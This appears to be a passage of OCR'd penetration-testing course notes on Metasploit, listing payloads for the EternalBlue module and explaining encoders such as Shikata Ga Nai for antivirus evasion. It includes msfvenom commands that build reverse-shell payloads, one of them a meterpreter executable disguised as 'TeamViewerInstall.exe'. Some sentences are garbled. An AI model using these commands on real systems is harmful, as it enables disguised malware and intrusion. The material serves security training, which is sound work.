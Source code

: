 `show payloads`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15`

| Payload | Description |
| --- | --- |
| generic/custom | Generic listener, multi-use |
| generic/shell_bind_tcp | Generic listener, multi-use, normal shell, TCP connection binding |
| generic/shell_reverse_tcp | Generic listener, multi-use, normal shell, reverse TCP connection |
| windows/x64/exec | Executes an arbitrary command (Windows x64) |
| windows/x64/loadlibrary | Loads an arbitrary x64 library path |
| windows/x64/messagebox | Spawns a dialog via MessageBox using a customizable title, text & icon |
| windows/x64/shell_reverse_tcp | Normal shell, single payload, reverse TCP connection |
| windows/x64/shell/reverse_tcp | Normal shell, stager + stage, reverse TCP connection |
| windows/x64/shell/bind_ipv6_tcp | Normal shell, stager + stage, IPv6 Bind TCP stager |
| windows/x64/meterpreter/$ | Meterpreter payload + varieties above |
| windows/x64/powershell/$ | Interactive PowerShell sessions + varieties above |
| windows/x64/vncinject/$ | VNC Server (Reflective Injection) + varieties above |

## Encoders

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion.

`Encoders` come into play with the role of changing the payload to run on different operating systems and architectures.

- **`x64`**
- **`x86`**
- **`sparc`**
- **`ppc`**
- **`mips`**

Shikata Ga Nai (SGN) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. 

`[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`

`-e x86/shikata_ga_nai`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders`

`[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe`

`-i 10`
